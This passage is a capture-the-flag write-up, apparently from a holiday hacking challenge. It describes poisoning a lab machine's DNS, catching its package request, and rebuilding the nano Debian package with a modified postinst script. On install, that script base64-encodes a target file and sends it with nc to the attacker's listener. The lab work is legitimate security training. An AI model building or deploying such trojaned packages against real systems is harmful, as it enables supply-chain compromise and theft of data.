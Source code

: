 ```
04:32:20.522762 IP 10.6.6.35.49790 > 10.6.6.53.53: 0+ A? ftp.osuosl.org. (32)
04:32:20.934339 ARP, Request who-has 10.6.6.53 tell 10.6.6.35, length 28
```

The machine is now receiving request from the poisoned machine on port 80, to verify the type of requests the machine receives we use `python3` `http.server` module.
```
uest@29847c69ad6a:~$ python3 -m http.server 80
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...
10.6.6.35 - - [21/Dec/2020 04:34:47] code 404, message File not found
10.6.6.35 - - [21/Dec/2020 04:34:47] "GET /pub/jfrost/backdoor/suriv_amd64.deb HTTP/1.1" 404 -
```

The server receives requests for a debian package `/pub/jfrost/backdoor/suriv_amd64.deb`, so we can use that to deliver a malicious package and retrieve the flag.

## Building malicious deb pakcage
We reuse one fo teh packages already present on the machine to build our malicious payload.
```
cd debs
dpkg -x nano_4.8-1ubuntu1_amd64.deb work
mkdir work/DEBIAN
ar -x nano_4.8-1ubuntu1_amd64.deb
xz -d -v control.tar.xz
tar -xvf control.tar ./control
tar -xvf control.tar ./postinst
mv control work/DEBIAN/
mv postinst work/DEBIAN/
```
We modify the post installation script to exfiltrate the contents of the file we want and we set our machine to listen on the port we specify on the script.
```
work/DEBIAN/postinst  contents 
---START---
#!/bin/sh

if [ "$1" = "configure" ] || [ "$1" = "abort-upgrade" ]; then
            update-alternatives --install /usr/bin/editor editor /bin/nano 40 \
                          --slave /usr/share/man/man1/editor.1.gz editor.1.gz \
                                /usr/share/man/man1/nano.1.gz
                update-alternatives --install /usr/bin/pico pico /bin/nano 10 \
                              --slave /usr/share/man/man1/pico.1.gz pico.1.gz \
                                    /usr/share/man/man1/nano.1.gz
fi

echo "`cat /NORTH_POLE_Land_Use_Board_Meeting_Minutes.txt |base64`" |nc 10.6.0.2 8000
---END---
```
We finish building the package and create the correct directory structure to match the incoming requests
```
dpkg-deb --build work/
mkdir -p pub/jfrost/backdoor
mv work.deb pub/jfrost/backdoor/suriv_amd64.deb
```
